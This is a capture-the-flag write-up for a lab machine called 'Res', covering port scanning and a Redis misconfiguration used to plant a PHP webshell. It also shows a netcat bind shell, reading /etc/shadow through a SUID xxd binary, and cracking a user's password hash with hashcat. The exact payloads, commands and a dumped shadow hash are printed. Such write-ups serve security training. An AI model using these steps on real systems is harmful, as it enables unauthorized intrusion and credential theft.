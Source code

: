 # Res

## Scan the machine, how many ports are open?
`nmap -T4 $ip` only shows port 80 as open, which is running an Apache web server (serving the default placeholder page). This isn't correct, so I'll do a full scan of all ports with `nmap -T4 $ip -p-`:
```
PORT     STATE SERVICE
80/tcp   open  http
6379/tcp open  redis
```

So, there are **2** open ports.
## What is the database management system installed on the server?
`redis`.

## What port is the database management system running on?
`6379`.

## What's is the version of management system installed on the server?
With a more comprehensive scan of this port, we can find that the version number is **6.0.7**.
`nmap -T4 -sV $ip -p6379`

## Compromise the machine and locate user.txt
### Exploring Redis misconfigurations
After spending some time unsuccessfully looking for CVEs for this version, I opened the hint which reads:

*What directory can you write to? Apache?*

This immediately made me think of setting up a webshell to have the Apache server execute arbitrary code, so I started working on interacting with the Redis server.
We can use `redis-cli -h $ip` to connect to the server and issue commands interactively.
I was able to find the directories to which I have access by running `CONFIG GET dir`, which returned `dir` and `/`, indicating that we should be able to write to the root directory... which includes the webroot which the hint eluded to abusing.

### Establishing a webshell
I ended up finding [this website](https://hackviser.com/tactics/pentesting/services/redis) which listed the following steps to leverage this vulnerable setup for a webshell:
```
flushall
set pwn "<?php system($_REQUEST['cmd']); ?>"
config set dbfilename shell.php
config set dir /var/www/html
save
```

Since I had done some experimenting before finding this, it turned out that I needed to reset my target VM in order for this to work.
I visited `http://$ip/shell.php?cmd=which nc`, which revealed that the system has netcat at `/pwn/bin/nc`, and then tried multiple commands attempting to connect to my netcat listener. At best, I received a connection for a moment before it was immediately closed. 
I ultimately wasn't successful with this approach and sought out other walkthroughs to check my methodology. I found that I wasn't the only one to face this issue.

### Establishing an interactive shell
Although I couldn't establish a reverse shell, I was able to open a listener on the server, and then connect to that:
`http://$ip/shell.php?cmd=nc -e /bin/bash -lnvp 8888`

attacking machine: `nc $ip 8888`

![image](attachments/19.png)

After connecting, I'll run the following to stabilize my shell:
`python -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm`
`^Z (control-z to background the session) stty raw -echo; fg`

Now we have a proper prompt, we can `clear` the terminal, and we have access to tab completion.

Since our current task is to find `user.txt`, I'll run `find / -type f -name "user.txt" 2>/dev/null | xargs cat` to find the flag (in /home/vianka/user.txt) and print its contents to submit as the flag.

## What is the local user account password?
After some brief snooping around the filesystem to check for any plaintext credentials, I started manual enumeration for privilege escalation vectors.
Using `find / -type f -perm -04000 2>/dev/null` to check for SUID binaries, I found that `/usr/bin/xxd` was owned by root and is executed with root privileges. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#suid), I was able to leverage this to read `/etc/shadow` to get the user password hashes.
```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

```
www-data@ubuntu:/home/vianka$ xxd "$LFILE" | xxd -r
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

### Cracking user hash with HashCat
By copying vianka's hash into the file `tocrack` on my local machine, I was able to crack it with a dictionary attack: `hashcat -m 1800 -a 0 -o cracked --remove tocrack /usr/share/wordlists/rockyou.txt`.

After this finishes, the original password is written in the `cracked` file on the right of the colon.

## Escalate privileges and obtain root.txt
First, `su vianka` and then enter the newly recovered password to sign in as vianka.

Checking our permissions, it turns out that we have full access via sudo:

![image](attachments/20.png)

Finally, using `find` similarly to earlier, I'll cat `root.txt` and complete the room.
`sudo find / -type f -name "root.txt" | sudo xargs cat`

## Closing thoughts
- I wasted a lot of time in the early stages by thinking too narrowly, between searching for an easy CVE for this Redis version before even looking at this instance's configuration, as well as spending a lot of time on initial access and retrying too similar of methods for getting a shell.
- Overall, another fun and rewarding room. I really enjoyed the vector from elevated file reading to then cracking the user's password hash.